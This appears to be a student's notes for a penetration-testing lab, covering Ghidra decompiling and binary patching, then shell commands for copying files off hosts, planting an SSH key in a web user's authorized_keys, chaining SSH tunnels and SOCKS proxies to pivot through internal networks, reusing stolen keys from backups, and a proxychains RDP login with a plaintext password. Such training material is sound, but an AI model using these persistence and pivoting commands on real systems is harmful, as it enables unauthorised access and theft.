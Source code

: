 ### Behavioral Analysis

- Run the program with expected input after code analysis.

### Disassembly

- Use Ghidra:
  - File → New Project → Import File
  - Search for strings, double-click function (e.g., "FUN") to decompile
  - Use pseudo code to walk back from desired end state ("success")
  - Right-click hex values to convert to decimal

### Patching

- Find instruction to change → right-click → patch instruction
- File → Export Program (format: PE), save and run

### Common Commands

- SCP files:
  ```bash
  scp -r -P 2222 comrade@192.168.28.111:/var/www/html/consulting/public_html/longTermStorage /home/student
  scp -r student@10.50.129.215:/home/student/longTermStorage C:\Users\student
  ```

- SSH key setup:
  ```bash
  mkdir /var/www/.ssh
  ls -lisa /var/www
  ssh-keygen -t rsa
  cat ~/.ssh/id_rsa.pub
  echo "<KEY>" >> /var/www/.ssh/authorized_keys
  ```

- SSH tunnels and connections:
  ```bash
  ssh -MS /tmp/jump student@10.50.12.103 -L 41223:192.168.28.105:2222
  ssh comrade@localhost -p 41223 -D 9050
  ```

- Find and use stolen SSH keys from backups:
  ```bash
  scp -r -P 8668 www-data@localhost:/tmp/backup.tar.gz /home/student
tunnel to jmp
ssh -MS /tmp/jmp student@10.50.12.103

tunnel to the .100
ssh -S /tmp/jmp t1 -O forward -L 8779:192.168.28.100:2222

new master socket using the www-data
ssh -MS /tmp/jmp2 www-data@127.0.0.1 -p 8779

forward tunnel 
ssh -S /tmp/jmp2 jmmpi -O forward -L 8778:192.168.150.253:3201

localhost connection
ssh www-data@localhost -p 8779

intra net tunnel make sure you have the ssh 
ssh -i /home/student/skey -MS /tmp/jmp3 comrade@localhost -p 8778

dynamic using new port
ssh -S /tmp/jmp3 dyno -O forward -D9050

connection to the rdp port
proxychains xfreerdp /u:comrade /p:StudentMidwayPassword /v:192.168.28.9 +clipboard
  ```